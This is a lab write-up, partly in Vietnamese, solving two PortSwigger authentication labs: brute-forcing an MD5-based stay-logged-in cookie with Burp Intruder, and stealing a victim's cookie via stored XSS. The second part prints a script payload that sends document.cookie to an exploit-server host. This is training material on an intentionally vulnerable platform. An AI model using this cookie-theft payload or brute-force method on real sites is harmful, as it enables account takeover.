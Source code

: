 # Authentication Vulnerabilities (other authentication mechanisms)

**Objective**:

* In this section, we'll look at some of the supplementary functionality that is related to authentication and demonstrate how these can be vulnerable.

In this lab, students need to:

* Perform two challenges:
  * [Brute-forcing a stay-logged-in cookie](https://portswigger.net/web-security/authentication/other-mechanisms/lab-brute-forcing-a-stay-logged-in-cookie)
  * [Offline password cracking](https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking)
* Explain and capture all steps (full windows screen capture).
* **Challenge 1:** [Brute-forcing a stay-logged-in cookie](https://portswigger.net/web-security/authentication/other-mechanisms/lab-brute-forcing-a-stay-logged-in-cookie)

This lab allows users to stay logged in even after they close their browser session. The cookie used to provide this functionality is vulnerable to brute-forcing.

To solve the lab, brute-force Carlos's cookie to gain access to his "My account" page.

* Your credentials: `wiener:peter`
* Victim's username: `carlos`
* [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

![](<.gitbook/assets/0 (1).png>)

Đầu tiên, ta sẽ đăng nhập vs username và password mà đề bài đưa ra. Và tích vào phần stay-login

![](<.gitbook/assets/1 (1).png>)

Vào burpsuite, tại phần get /account ta thấy một mã tại phần stay-login. Quan sát sang phần inspector ta có: wiener:51dc30ddc473d43a6011e9ebba6ca770. Ta có thể thấy session được tạo bởi username : md5encodingpassword

![](<.gitbook/assets/2 (1).png>)

Crack mã md5 tại crackstation ta ra đc mật khẩu mà ta đã nhập vào trước. sau đó ta sẽ gửi request này vào intruder

![](<.gitbook/assets/3 (1).png>)

Tại đây, ta sẽ paste list password mà đề bài cho. Tại phần processing payload, ta sẽ thêm

Hash: MD5 -> encode password bằng mã md5

Add Prefix: carlos: -> add carlos: vào đầu mỗi mã

Base64-encode -> encode mã thành base64

![](<.gitbook/assets/4 (1).png>)

![](.gitbook/assets/5.png)

Sau khi bruteforce, ta quan sát đc 1 payload có kết quả khác các payload còn lại. mở response bằng browser, t đã đăng nhập đc vào tk carlos

![](.gitbook/assets/6.png)

![](.gitbook/assets/7.png)

Base64 decode session:

![](.gitbook/assets/8.png)

Md5 decode -> password: monitoring  &#x20;

* &#x20;                                   Challenge 2: [Offline password cracking](https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking)

This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's `stay-logged-in` cookie and use it to crack his password. Then, log in as `carlos` and delete his account from the "My account" page.

* Your credentials: `wiener:peter`
* Victim's username: `carlo`

ở challenge này, như các challenge khác ta vẫn sẽ đăng nhập với account wiener:peter. Sau đó ta sẽ vào exploit server

![](.gitbook/assets/9.png)

Tiếp theo, copy url của expoit server

![](.gitbook/assets/10.png)

Vào comment post của 1 bài bất kì, ta sẽ comment dựa trên cú pháp của html : \<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie\</script>

![](.gitbook/assets/11.png)

Sau khi post comment, Quay trở lại exploit server và mở access log rồi quan sát. Ta thấy 1 log có chứa nội dung lạ và ip lạ. ta sẽ cop nội dung ở stay-logged-in

![](.gitbook/assets/12.png)

Đưa vào decoder bằng base 64, ta đã ra đc tk vs username là carlos

![](.gitbook/assets/13.png)

Tiếp tục decode mã hash ở sau, ta có đc mk là : onceuponatime.

![](.gitbook/assets/14.png)

Đăng nhập thành công vào tài khoản và xóa mật khẩu. ta đã hoàn thành bài lab

![](.gitbook/assets/15.png)
